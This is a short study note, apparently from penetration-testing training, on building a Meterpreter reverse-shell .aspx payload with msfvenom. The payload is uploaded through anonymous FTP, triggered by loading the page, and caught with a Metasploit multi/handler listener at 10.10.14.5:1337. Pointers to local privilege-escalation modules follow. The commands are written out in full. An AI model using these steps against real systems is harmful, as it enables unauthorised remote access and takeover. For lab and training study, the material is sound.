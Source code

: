 - `MSFVenom` is the successor of `MSFPayload` and `MSFEncode`, two stand-alone scripts that used to work in conjunction with `msfconsole` to provide users with highly customizable and hard-to-detect payloads for their exploits.

### Creating Our Payloads
Let's suppose we have found an open FTP port that either had weak credentials or was open to Anonymous login by accident.
in the example we have ftp anonymous login to that we will build the payload 
we use `.aspx` but we can use msfvenom for the same job
#### Generating Payload
```shell-session
sfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx

ls

Desktop  Documents  Downloads  my_data  Postman  PycharmProjects  reverse_shell.aspx  Templates

```
navigate to `http://10.10.10.5/reverse_shell.aspx`, and it will trigger the `.aspx` payload

we should start a listener on msfconsole so that the reverse connection request gets caught inside it.
```shell-session
msfconsole -q 

msf6 > use multi/handler
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set LHOST 10.10.14.5

LHOST => 10.10.14.5


msf6 exploit(multi/handler) > set LPORT 1337

LPORT => 1337


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.5:1337 
```
If the Meterpreter session dies too often, we can consider encoding it to avoid errors during runtime. We can pick any viable encoder, and it will ultimately improve our chances of success regardless.

### Local Exploit Suggester
- module called the `Local Exploit Suggester`. We will be using this module for this example, as the Meterpreter shell landed on the `IIS APPPOOL\Web` user, which naturally does not have many permissions. Furthermore, running the `sysinfo` command shows us that the system is of x86 bit architecture,

```shell-session
msf6 > search local exploit suggester
```

#### MSF - Local Privilege Escalation

```shell-session
search kitrap0d
```